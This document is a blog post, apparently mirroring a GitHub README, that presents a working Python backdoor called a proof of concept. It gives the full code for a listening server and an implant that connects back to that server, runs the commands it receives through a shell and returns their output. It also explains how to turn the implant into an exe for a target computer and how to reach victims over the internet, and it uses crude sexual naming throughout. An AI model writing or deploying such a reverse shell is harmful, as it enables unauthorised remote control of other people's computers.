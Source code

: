 ```yaml
---
layout: post
title:  "Proof of Concept Python Backdoor"
date:   2020-09-11 6:00:00 +0800
categories: coding
---
```


# goatse
a proof of concept backdoor for the most bare-bone access

## Usage
Run the server.py on your computer to start listening for callbacks.
```bash
$ sudo chmod 775 server.py
$ ./server.py
```

3 ways you can start goatse to target computer
1. run as python script
```bash
$ sudo chmod 775 goatse.py
$ ./goatse.py
```
2. create an exe file using pyinstaller, exe file is located in dist folder
```
$ pyinstaller --onefile goatse.py
```

## How does it work?
server.py
```
#!/usr/bin/env python3

#import socket API module
import socket

# for LAN you can use your pc's ip.
# for WAN you need to setup your own server in aws or digital ocean get the IP of said server and you can just ssh to that machine and run this script. other option is to use your own ISP public ip address and port forward to your pc's ip address.
serverIp = '192.168.1.1'
serverPort = 8080 
server = socket.socket()
server.bind((serverIp, serverPort))
print('Server is online')
print('Listening for callback')

#listening for callback
server.listen(1)
target, target_addr = server.accept()

#will display once callback is initiated
print(f'[+] {target_addr} She spreads the legs, it is time')


```
goatse.py
```
#!/usr/bin/env python3

#import socket and subprocess modules, subprocess module allows us to run commands on our target machine.
import subprocess
import socket


#don't forget to set the correct server ip address and port in order for this to callback home.
serverIp = '192.168.1.1'
serverPort = 8080
backdoor = socket.socket()
backdoor.connect((serverIp, serverPort))

while True:
    #after successfull callback to home, goatse will start to listen for commands from server
    anal = backdoor.recv(1024)
    
    #this decodes the user command from sent from server
    anal = anal.decode()
    UserInput = subprocess.Popen(anal, shell = True, stderr = subprocess.PIPE, stdout = subprocess.PIPE)
    
    #then executes command and read the output/error
    output = UserInput.stdout.read()
    output_error = UserInput.stderr.read()
    backdoor.send(output + output_error)
```

## License
[BSD 3-Clause “New” or “Revised” License](https://choosealicense.com/licenses/bsd-3-clause/)

### Resources:
[Github Repo](https://github.com/AdrianDucao/goatse)

Happy Coding.